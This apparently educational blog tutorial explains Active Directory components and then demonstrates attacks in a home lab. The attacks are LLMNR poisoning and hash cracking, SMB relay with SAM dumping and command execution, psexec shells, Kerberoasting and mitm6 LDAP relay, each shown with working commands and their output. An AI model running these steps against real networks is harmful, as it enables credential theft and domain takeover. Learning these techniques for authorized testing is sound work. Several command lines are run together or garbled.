

Intro
Active Directory is a directory service developed by Microsoft that is used to store information about network resources such as computers, users, groups, printers, and other network objects.It provides a centralized and secure way to manage and authenticate users and computers on a Windows-based network.This entry will refer to Active Directory as "AD".Why study AD?95% of the Fortune 1000 companies use AD and the AD is exploitable without patchable exploits.We will utilize opportunities, trusts, components, etc.
Phisical AD Components
A
domain controller is a server deployed with the AD DS role, which has been promoted to domain controller. (DS = Domain Services)
The Domain Controllers:
- Store copy of the AD DS Data Storage
- Serve authentication and authorization services
- Replicate updates in the domain and forest for other domain controllers
- Grants Administrator access for managing user accounts and network resources
The
AD DS Data Storage stores database files and processes which contain library information and manage services for users and applications.
The AD DS Data Storage:
- Contains the Ntds.dit file ( you want to get it: it contains all the users, objects, groups, and password hashes )
- It is located at the "%SystemRoot%\NTDS" directory on all domain controllers by default
- It is only accessable via the domain controller's processes and protocols
Logical AD Components
The
AD DS Schema
- Defines every type of objects which can be stored in the library
- Enforces rules about the creation and configuration of objects
A schema is like a rule book in which rules are defined and those rules must be followed.
| Object Types |
Function |
Example |
| Class Object |
What kind of objects can be created in the directory |
- User- Computer |
| Attribute Object |
Information that can be attached to an object |
- Display name |
We use
domains to group and manage objects in an organization.
Domains:
- An admisitrative border for applying rules on objects' groups
- A replication border for replication of datas between domain controllers
- An authentication and authorization border that grants opportunity for restiction of resources
Trees
A domain
tree is a domain hierarchy in the AD DS.
emea.con.com <--- con.com ---> na.con.com
Every domain in the tree:
- Shares coherent namespace with the parent domain
- Can have child domains
- Creats two-sided trust with other domains by default
Forests
The
forest is a collection of one or more domain tree.
Forests:
- Share on common scheme
- Share on common configuration partition
- Share on common global catalog for turning on search
- Turn on trusts among every domain in the forest
- Share on the Enterprise Admins and Schema Admins groups
Organizational Units (OUs)
The OUs are AD storages which can contain users, groups, computers, and other OUs.
OUs are used for:
- Hierarchical and logical representation of organization
- Handling collections of objects consistently
- Delegating privileges on admin object groups
- Applying rules
Trusts
The
trusts grant mechanisms for users to access resources from another domain.
| Trust type |
Description |
| Directional |
The direction of the trust is going from the trusting domain to the trusted domain |
| Transitive |
The trust connection is extended, so it can contain another trusted domains |
Directional trust:
Transitive trust:
- Every domain in the forest trust every other domain in the forest
- The trusts can be extended on outside of forest too
Objects
Example:
| Object |
Description |
| User |
Grants access to the network for a user |
Background: Active Directory Lab Build
Now that we discussed why study AD and the components of AD, let's discuss the lab build and what to know about this specific case.
Windows Defender is turned off...
but it will be turned on intentionally before we are trying to achieve shell access.
It is important to note that this case study does not cover advanced antivirus evasion and does not cover defense strategies neither.
They will be subject of another case studies.
Our Lab build looks like the following:
The user Frank Castle has a username which is "fcastle" and a password which is "Password1".
The domain name is MARVEL.Local.
On the HYDRA-DC, the AD DS is installed.
On the Win 10 Enterprise clients, the network discovery is turned on.
If we want to build the lab locally, we need 60 GB of space minimum and 16 GB of RAM minimum.
| Name |
Type |
Description |
| Administrator |
User |
|
| Frank Castle |
User |
|
| Guest |
User |
|
| Peter Parker |
User |
|
| SQL Service |
User |
|
| Tony Spark |
User |
|
You can download the ISO files that are used in this lab build by typing "Microsoft Evaluation Center" on Google and clicking on the first result.
This AD environment is vulnerable to everything which will be presented in this case study.
AD Attacks: Initial Attack Vectors
TOP 5 Roads for Compromising Domain Admin
- NetBIOS and LLMNR name poisoning
- Relay attacks
- MS17-010 (EternalBlue) / CVE-2020-1472 (ZeroLogon)
- Kerberoasting
- mitm6
LLMNR Poisoning
What is LLMNR?
- It is used to identify hosts if identifying with DNS is not successful
- Earlier: NBT-NS (NetBIOS-Name Service)
- Link Local Multicast Name Resolution
- Key's Error:

- Run Responder (should be running before port scanning)
- An Event Occurs. The victim is pointed to our Kali machine but it doesn't always have to be true
- Get the Hash
- Crack the Hash
# responder -I eth0 -rdwv
[...][+] Poisoners: LLMNR [ON] NBT_NS [ON] DNS/MDNS [ON][...] SMB Server [ON][+] Generic Options: [...] Responder IP [192.168.57.139] [...][+] Listening for events...
Windows:

[+] Listening for events...
[SMB] NTLMv2-SSP Hash: fcastle::MARVEL:[...]
# hashcat --help | grep NTLM5500 | NetNTLMv15500 | NetNTLMv1+ESS5600 | NetNTLMv21000 | NTLM
*copy-paste the "fcastle::MARVEL:[...]" stuff*
# hashcat -m 5600 ntlmhash.txt rockyou.txt --force
It is important to note that we ought to run hashcat on our base OS.
Windows:
> hashcat64.exe -m 5600 ntlmhash.txt rockyou.txt -O
We got the password of fcastle which is Password1.
We successfully executed an LLMNR poisoning.
SMB Relay
What is SMB Relay?
- Instead of cracking hashes that we gathered with Responder, we can forward the hashes to given machines and gain access.
This forwarding is the SMB Relay.
Requirements
- SMB signing must be disabled on the target OR enabled but not required
- The forwarded credentials must be Administrator credentials on the target machine.
Enumerating IP addresses of computers where SMB signing is turned off/turned on but not required for hashes
# nmap --script=smb2-security-mode.nse -p445 192.168.57.0/24[...]Nmap scan report for 192.168.57.140[...] Message signing enabled and required[...]Nmap scan report for 192.168.57.141[...] Message signing is enabled but not required[...]Nmap scan for 192.168.57.142[...] Message signing enabled but not required
We write 192.168.57.142 inside the txt file. We must put in every machine's IP address where SMB signing is for some reason not required, but for now it is good to have only one for demonstration purpose.
# gedit /etc/responder/Responder.conf
Here we turn off the SMB- and the HTTP Server (SMB = OFF, HTTP = OFF).
# responder -I eth0 -rdwv[...]HTTP Server [OFF][...]SMB Server [OFF]
# ntlmrelayx.py -tf targets.txt -smb2support[...][*] Servers started, waiting for connections
We type in the file explorer on the victim's Windows PC: \\192.168.57.139
then press Enter.
Going back to Kali:
[...][*] Dumping local SAM hashes ([...])Administaror[...]Guest[...]DefaultAccount[...]WDAGUtilityAccount[...]Peter Parker[...][*] Done dumping SAM hashes for host: 192.168.57.142[...]
OR
# ntlmrelayx.py -tf targets.txt -smb2support -i
We type in the file explorer on the victim's Windows PC: \\192.168.57.139
then press Enter.
[...]Started interactive SMB client shell via TCP on 127.0.0.1:11000[...]
[...]# nc 127.0.0.1 11000[...]# help# sharesADMIN$C$TPC$Share# use C$# ls* Contents of the C drive. We can delete, add, or download! *# use ADMIN$# ls* Admin's C drive's contents :D We can delete, add, or download! *
We can utilize other commands for exploiting SMB Relay. Examples:
[...]# ntlmrelayx.py -tf targets.txt -smb2support -e test.exeOR# ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
Achieving Shell Access
Before moving on, let's see an example on how we can achieve shell access.
# msfconsolemsf5> search psexec[...]10 exploit/windows/smb/psexecmsf5> use 10 > options [...] > set rhost 192.168.57.141 > set smbdomain marvel.local > set smbpass Password1 > set smbuser fcastle > options > set lhost eth0 > run* It is important to note that running this exploit does not work always for the first try andthat setting the target option could be useful * > show targets [...] 2 Native upload > set target 2 > run [...] STATUS_VIRUS_DETECTED >
Unfortunately, Windows Defender turned on automatically because of the exploit and catched our reverse shell.
All this effort with Metasploit was useless in this case as we could not gain access to the target machine with a reverse shell, no matter how many times we try.
We can try psexec.py instead.
# psexec.py marvel.local/fcastle:Password1@192.168.57.141[...]C:\Windows\system32>
Excellent! Windows Defender did not notice our attempt and we achieved shell access.
If psexec.py fails, we can try smbexec.py and/or wmiexec.py with the exact same parameters.
In this case, both smbexec.py and wmiexec.py failed because Windows Defender cached them.
It is important to note that these exploits do not work for the first time always, it is important to retry several times to evaluate this part of the Active Directory environment.
MS17-010 (EternalBlue) / CVE-2020-1472 (ZeroLogon)
These are way too easy to exploit to cover in more depth.
Refer to the Useful References section for more information.
Kerberoasting
Kerberoasting is an attack that utilizes a feature of Windows called Kerberos.
The goal of Kerberoasting is to get the TGS secret key and crack the server account's hash.
Test for Kerberoasting only if you have/can guess the domain name and a valid username.
- Requesting TGT, giving NTLM hash
- Receiving TGT, encrypted with krbtgt hash
- Requesting TGS for Application Server (shows up TGT)
- Receiving TGS, encrypted with the server account's hash
- Showing up encrypted TGS
- Answer, if manual authentication is required
# GetUserSPNs.py marvel.local/fcastle[...]$krb5tgs[...]ee
We put the hash in a file named - let's say - hashes.txt.
# hashcat -m 13100 hashes.txt rockyou.txt[...]$krb5tgs[...]ee:Password1[...]#
Very easy.
IPv6 Attacks Overview
If we use Ipv4 but the IPv6 is enabled, who serves DNS for IPv6?
Usually nobody ===> we can set up a false DNS server to compromise the domain controller by stealing an admin's credentials with the false DNS server if the admin logs in to a client!
In this case, the false DNS server and the domain controller has IPv4 addresses from the same subdomain.
The false IPv6 DNS server serves DNS along with LDAP and SMB.
In turn, the domain controller would provide the NTLM hash, but we do not crack the hash in this case as we would achieve LDAP Relay.
This means that if the admin logs in then we can stop the relay in a way that we can read the admin credentials.
We use the tool mitm6 for this purpose.
Downloading mitm6:
cd /opt/git clone https://github.com/fox-it/mitm6.gitcd /mitm6/lspip3 install .
We need LDAPS on the DC in order to exploit this IPv6 condition.
Let's assume there is no LDAPS on the DC but we can install the LDAPS service.
It will most likely never be the case but it is a good practise.
Clicking on the flag icon through our remote desktop we see a text which is "Select server rules".
There we put a tick next to "Active Directory Certificate Services".
After that, we put a tick next to Certification Authority.
Then we select "Restart [...] if required".
We click on the flag icon which noew has an exlamation mark in a triangle next to it.
We put a tick next to "Certification Authority" and set the expiration to 99 years.
99 years will be enough time for our attack.
# mitm6 -d marvel.local#ntlmrelayx.py -6 -t https://192.168.57.140 -wh fakepad.marvel.local -l l00tme* achieve a restart on the Windows client ** Admin logs in on the Windows 10 client * * Ctrl-C *[...]username: NfSGuFeMXl and password: 5?AL93N;7lQ*()fresult: OK [...]
# ls[...] lootme [...]# cd l00tme/ls* loots *# firefox domain_users_by_group.html* we can see the users and their informations *
Any ACL attack using ntlmrelayx saves a restore file that can be provided to aclpwn.py to restore the original permissions on the domain object.
# python aclpwn.py --restore ../aclpwn-20190319-125741.restore
Misc Vectors and Strategies
- Start the day with mitm6 or Responder. mitm6 is a bit faster.
- Run scans to generate traffic.
- If the scans take too long, search for websites in scope.
You can do this with the http_version Metasploit module. (silent)
- Search for default credentials on website logins
- Printers
- Jenkins
- Etc.
- Passback Attacks
- Think outside the box
- Try harder
That's pretty much it. Very easy.
~Thank you for reading~
Useful references